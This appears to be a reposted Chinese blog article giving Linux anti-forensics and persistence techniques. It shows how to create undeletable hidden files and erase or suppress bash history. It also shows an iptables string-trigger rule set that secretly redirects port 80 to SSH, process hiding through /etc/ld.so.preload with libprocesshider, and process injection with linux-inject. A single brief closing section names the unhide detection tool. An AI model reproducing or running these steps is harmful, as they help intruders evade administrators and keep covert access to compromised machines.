 #####  原文信息
原文作者：Bypass公众号   
原文链接：[点击此处直接访问](https://mp.weixin.qq.com/s?srcid=0902Zm6E1XSvVIgYt2Q3jSZm&scene=23&sharer_sharetime=1567437712765&mid=2448904250&sharer_shareid=64458b89777349122de4fc747d336e14&sn=cce745079e51ab4bb013de00c2125bf0&idx=1&__biz=MzA3NzE2MjgwMg%3D%3D&chksm=8b55c067bc22497125d4bd5f7a03e46c214d5db11e5bbdbb8422c92cbcf85e3653def6bab6c5&mpshare=1&key=b1d774c47332243a7516756d3a9fe660b8c7273d25a3a287bd403be11be6776acfe040d8b96edbaf8401c621fdcbd22748edd0c8295201dfafbc1aa7145e0cd9d0f5461881deb303b24b52a0cd9126d8&ascene=1&uin=MTA1MTI5MTUyMQ%3D%3D&devicetype=Windows+10&version=62060834&lang=zh_CN&pass_ticket=XTJUAgoC6SLk6U6jutYqGfS1%2BFGlLiWGnPMvZJGYArRcBGENrZolo0laVgipfxHI)
##### Linux创建隐藏文件
	touch .test.txt  		文件名前加点就是隐藏文件
#####  Linux隐藏权限
*创建一个root和其他用户删不了的文件，并且用ls-la 看不出来权限*    

	chattr +i .test.txt 		锁定一个隐藏文件(也可以是普通文件)  
	lsattr .test.txt			属性查看  
	chattr -i .test.txt		解除锁定  
##### 隐藏历史操作命令
+  开启无痕模式  
	```
	[space] set +o history	开启无痕操作模式	[space]表示空格，由于空格的缘故该命令本身也不会被记录
	[space] set -o history 	关闭无痕模式  工作执行完成后，再执行这个命令  
	```
+  删除指定的历史记录  
	```
	history -d [num]  
	```
+  批量删除历史记录  
	```
	sed -i '150,$d' .bash_history 	只保留前150条
	```

#####  端口复用实现隐藏端口
*通过端口复用来达到隐藏端口的目的*  

+  通过SSLH在同一端口上共享SSH和HTTPS  
```
	sudo apt-get install sslh  #安装sslh  
	sudo vi /etc/default/sslh	#编辑SSLH配置文件  
	1.修改Run=no 为Run=yes  
	2.修改下列行以允许SSLH在所有可用接口上侦听端口443  
	 DAEMON_OPTS="--user sslh --listen 0.0.0.0:443 --ssh 127.0.0.1:22 --ssl 127.0.0.1:443 --pidfile /var/run/sslh/sslh.pid"
```
+  利用IPTables进行端口复用
```
	#端口复用链   
	iptables -t nat -N LETMEIN    
 	# 端口复用规则   
	iptables -t nat  -A LETMEIN -p tcp -j REDIRECT --to-port 22   
	# 开启开关   
	iptables -A INPUT -p tcp -m string --string 'threathuntercoming' --algo bm -m recent --set --name letmein --rsource -j ACCEPT  
	# 关闭开关  
	iptables -A INPUT -p tcp -m string --string 'threathunterleaving' --algo bm -m recent --name letmein --remove -j ACCEPT  
	# let's do it  
	iptables -t nat -A PREROUTING -p tcp --dport 80 --syn -m recent --rcheck --seconds 3600 --name letmein --rsource -j LETMEIN  
```
+  利用方式  
```
	#开启复用    
	echo threathuntercoming | socat - tcp:192.168.28.128:80   
	#ssh使用80端口进行登录   
	ssh -p 80 root@192.168.28.128   
	#关闭复用   
	echo threathunterleaving | socat - tcp:192.168.28.128:80   
```
查看详细介绍请点击：[远程遥控 IPTables 进行端口复用](https://www.freebuf.com/articles/network/137683.html)

#####  进程隐藏  
*管理员无法通过相关命令工具查找到你运行的进程，从而达到隐藏目的，实现进程隐藏*  

+  通过libprocesshider进行隐藏   
github项目地址：https://github.com/gianlucaborello/libprocesshider   
利用LD_PRELOAD来实现系统函数的劫持   
```
	# 下载程序编译   
	git clone https://github.com/gianlucaborello/libprocesshider.git    
	cd libprocesshider/ && make   
	# 移动文件到/usr/local/lib/目录下   
	cp libprocesshider.so /usr/local/lib/   
	# 把它加载到全局动态连接局   
	echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload   
```
+   使用linux-inject进行进程注入   
github项目地址：https://github.com/gaffe23/linux-inject.git   
linux-inject是用于将共享对象注入Linux的工具   
```
	# 下载程序编译   
	git clone https://github.com/gaffe23/linux-inject.git    
	cd linux-inject && make   
	# 测试进程   
	./sample-target   
	# 进程注入    
	./inject -n sample-target sample-library.so   
```

##### 如何在linux中发现隐藏的进程？
>unhide 是一个小巧的网络取证工具，能够发现那些借助rootkit，LKM及其它技术隐藏的进程和TCP / UDP端口。这个工具在Linux，UNIX类，MS-Windows等操作系统下都可以工作。  
>下载地址：http://www.unhide-forensics.info/    
>安装   
>sudo yum install unhide   
>使用   
>unhide [options] test_list   
